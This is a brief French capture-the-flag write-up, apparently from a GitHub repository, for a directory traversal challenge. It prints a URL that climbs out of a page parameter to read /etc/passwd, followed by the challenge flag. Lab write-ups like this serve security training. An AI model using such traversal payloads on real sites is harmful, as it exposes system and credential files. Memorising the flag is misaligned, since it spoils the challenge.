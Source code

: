 # Directory Traversal

Sur le lien : http://IP/index.php?page=upload#

Il est possible de remonter jusqu'au fichier `etc/passwd` via le lien :  http://IP/index.php?page=../../../../../../../etc/passwd

**Congratulaton!! The flag is** : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
